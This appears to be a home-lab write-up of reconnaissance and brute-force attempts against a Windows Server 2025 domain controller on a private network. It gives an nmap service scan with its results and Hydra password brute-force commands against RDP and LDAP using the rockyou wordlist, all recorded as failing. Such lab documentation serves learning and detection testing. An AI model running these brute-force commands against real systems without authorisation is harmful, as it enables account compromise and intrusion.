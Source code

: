 # 🔐 Brute Force Attack Attempt & Recon – Windows Server 2025 (192.168.1.2)

**Date:** April 11, 2025  
**Attacker Machine:** Kali Linux (192.168.1.10)  
**Target:** Windows Server 2025 – AD Domain Controller (192.168.1.2)  
**Domain:** `narnia.com`  
**Objective:** Enumerate services, test brute-force login techniques, and analyze detection.

---

## 🔎 Nmap Recon

```bash
nmap -sV 192.168.1.2
```

**Results:**
- 22/tcp   → OpenSSH for Windows
- 53/tcp   → Simple DNS Plus
- 88/tcp   → Kerberos
- 135/tcp  → MS RPC
- 139/tcp  → NetBIOS
- 389/tcp  → LDAP (AD)
- 445/tcp  → SMB
- 3389/tcp → RDP
- 5985/tcp → WinRM

> ✅ Confirmed this is an Active Directory Domain Controller.

---

## 🚪 Service Enumeration Attempts

### 🧪 Hydra - RDP Brute-force (FAILED)

```bash
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.2 -t 1 -W 3
```

**Result:**
- RDP module is **experimental**
- No login attempts succeeded
- Common error: `File for logins not found` due to misuse of `-L` instead of `-l`

---

### 📛 LDAP Brute-force Attempt (FAILED)

```bash
hydra -L user_list.txt -P rockyou.txt ldap3://192.168.1.2
```
